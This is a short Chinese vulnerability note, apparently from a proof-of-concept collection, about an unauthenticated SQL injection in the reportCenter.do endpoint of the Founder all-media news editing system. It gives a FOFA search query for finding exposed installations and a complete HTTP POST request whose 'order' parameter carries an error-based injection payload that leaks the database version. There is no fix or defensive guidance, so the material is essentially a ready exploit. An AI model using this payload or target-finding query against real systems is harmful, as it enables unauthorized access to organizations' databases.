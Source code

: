 ## 方正畅享全媒体新闻采编系统reportCenter.do存在SQL注入漏洞

方正畅享全媒体新闻采编系统reportCenter.do存在SQL注入漏洞，未经身份验证的恶意攻击者利用SQL注入漏洞获取数据库中信息。

## fofa

```
app="FOUNDER-全媒体采编系统"
```

## poc

```javascript
POST /newsedit/report/reportCenter.do HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Connection: close

type=paperLayoutList&paperDate=2023-1-1&token=1&pageNo=1&pageSize=1&order=x' THEN 5 ELSE 5 END) AS status from (select '1x' as SYS_CURRENTSTATUS) d) tmp where cast(@@version as int)=5-- a
```

